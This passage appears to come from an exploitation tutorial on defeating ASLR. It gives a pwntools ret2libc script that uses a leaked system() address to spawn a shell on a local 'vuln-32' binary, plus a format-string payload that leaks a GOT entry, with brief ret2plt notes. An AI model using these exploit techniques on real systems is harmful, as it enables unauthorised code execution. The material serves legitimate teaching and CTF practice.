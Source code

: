 ```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

- **ret2plt**

Abusing a buffer overflow it would be possible to exploit a **ret2plt** to exfiltrate an address of a function from the libc. Check:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Just like in ret2plt, if you have an arbitrary read via a format strings vulnerability it's possible to exfiltrate te address of a **libc function** from the GOT. The following [**example is from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):

```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```

You can find more info about Format Strings arbitrary read in:

{{#ref}}
../../format-strings/
{{#endref}}

